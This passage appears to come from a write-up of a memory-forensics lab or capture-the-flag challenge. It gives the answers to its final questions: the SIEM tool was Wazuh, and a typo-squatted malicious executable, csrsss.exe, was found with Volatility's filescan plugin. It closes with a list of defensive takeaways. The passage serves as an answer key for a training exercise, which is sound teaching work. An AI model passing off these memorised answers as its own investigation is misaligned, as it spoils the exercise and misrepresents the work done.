

The SIEM tool identified was Wazuh.

**Answer:**

```text
Wazuh
```

### 18 - The victim user downloaded an exe file. The file's name was mimicking a legitimate binary from Microsoft with a typo (i.e. legitimate binary is powershell.exe and attacker named a malware as powershall.exe). Tell us the file name with the file extension?

For this question, I used the `filescan` plugin in Volatility 2, filtering for executable files (`.exe`) located in the user's `Downloads` folder.

After identifying the downloaded executables, I examined their filenames and compared them with legitimate Windows binaries. I found a suspicious executable named `csrsss.exe`, which mimics the legitimate Windows process `csrss.exe` by adding an extra `s`.



The malicious executable was identified as `csrsss.exe`.

**Answer:**

```text
csrsss.exe
```

### Key Takeaways

- **Memory Forensics:** Learned how to investigate memory dumps and retrieve valuable information about a potentially compromised Windows system.
- **Volatility 2 and 3:** Gained practical experience using different Volatility versions and understanding how their commands and plugins can be used during memory investigations.
- **Volatility Plugins:** Learned how to use plugins such as `windows.info`, `cmdscan`, `consoles`, `filescan`, `dumpfiles`, `netscan`, and `pstree` to investigate different types of memory artifacts.
- **Command History and Clipboard Analysis:** Learned how to recover commands executed by attackers and retrieve clipboard contents from memory.
- **Process Investigation:** Learned how to examine process relationships, identify parent and child processes, and investigate potentially malicious executable files.
- **File Extraction and Analysis:** Learned how to extract files from memory and perform additional analysis using tools such as PEfile and ExifTool.
- **Browser Artifact Analysis:** Learned how to recover and examine Microsoft Edge artifacts, including browsing history, autofill information, and other SQLite databases.
- **Network Investigation:** Learned how to identify network connections, local IP addresses, and potential data exfiltration attempts.
- **Indicators of Compromise (IOCs):** Learned how to identify suspicious executables, hashes, file paths, and other artifacts that can support incident investigations.
